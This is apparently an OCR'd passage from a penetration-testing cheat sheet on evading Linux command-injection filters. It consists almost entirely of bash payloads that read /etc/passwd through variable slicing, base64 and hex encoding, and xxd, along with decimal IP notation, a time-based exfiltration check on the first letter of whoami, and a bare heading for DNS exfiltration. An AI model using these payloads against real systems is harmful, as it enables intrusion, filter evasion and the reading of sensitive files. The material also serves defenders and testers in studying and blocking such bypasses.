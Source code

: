 ```bash

# Undefined variables and !
$u $u # This will be saved in the history and can be used as a space, please notice that the $u variable is undefined
uname!-1\-a # This equals to uname -a
```

### Bypass backslash and slash

```bash
cat ${HOME:0:1}etc${HOME:0:1}passwd
cat $(echo . | tr '!-0' '"-1')etc$(echo . | tr '!-0' '"-1')passwd
```

### Bypass pipes

```bash
bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)
```

### Bypass with hex encoding

```bash
echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"
cat `echo -e "\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64"`
abc=$'\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64';cat abc
`echo $'cat\x20\x2f\x65\x74\x63\x2f\x70\x61\x73\x73\x77\x64'`
cat `xxd -r -p <<< 2f6574632f706173737764`
xxd -r -ps <(echo 2f6574632f706173737764)
cat `xxd -r -ps <(echo 2f6574632f706173737764)`
```

### Bypass IPs

```bash
# Decimal IPs
127.0.0.1 == 2130706433
```

### Time based data exfiltration

```bash
time if [ $(whoami|cut -c 1) == s ]; then sleep 5; fi
```

### Getting chars from Env Variables

```bash
echo ${LS_COLORS:10:1} #;
echo ${PATH:0:1} #/
```

### DNS data exfiltration

